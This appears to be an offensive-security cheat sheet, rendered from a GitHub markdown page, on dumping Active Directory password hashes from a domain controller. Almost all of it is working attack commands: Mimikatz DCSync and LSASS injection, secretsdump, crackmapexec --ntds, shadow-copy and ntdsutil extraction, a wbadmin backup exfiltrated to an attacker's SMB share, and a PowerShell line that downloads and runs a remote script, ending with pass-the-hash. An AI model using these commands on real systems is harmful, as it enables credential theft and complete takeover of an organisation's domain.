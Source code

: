 # Dump NTDS from Domain Controller

## Tools: CrackMapExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

    netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

    impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP

    windows/gather/credentials/domain_hashdump (Metasploit)

    certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

    use auxiliary/admin/smb/psexec_ntdsgrab (Metasploit)

### Invoke-DCSync

##### Load into memory

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

##### Execute

    Invoke-DCSync -dcfqdn DC01.security.local -username administrator

### Mimikatz

##### Dump hashes for a specified users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

##### Dump hashes for all users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

##### Dump hashes by injecting into the lsass process on the Domain Controller

    Invoke-Mimikatz -command '"lsadump::lsa /inject"'

### NTDSUtil

 - ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

 - impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)

# DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) 

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) 

    python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### 

    adduser smbuser

#### 

    smbpasswd -a smbuser

#### 

    sudo service smbd restart 

#### 2) Mount the share

    net use k: \\OUR_IP\SHARE /user:smbuser smbpass 

#### 3) Backup NTDS folder

    echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds 

#### 4) Retrieve the version of the backup

    sbadmin get versions 

#### 5) Restore the NTDS file, specifying the backup version

    echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl 

#### 6) Export the system hive

    reg save HKLM\SYSTEM C:\system.hive 

#### 7) Transfer the ntds.dit file to our share

    cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) Transfer the system hive to our share

    cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) Dump hashes from NTDS

    impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) 

    crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) 

    vssadmin create shadow /for=C:

#### 2) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

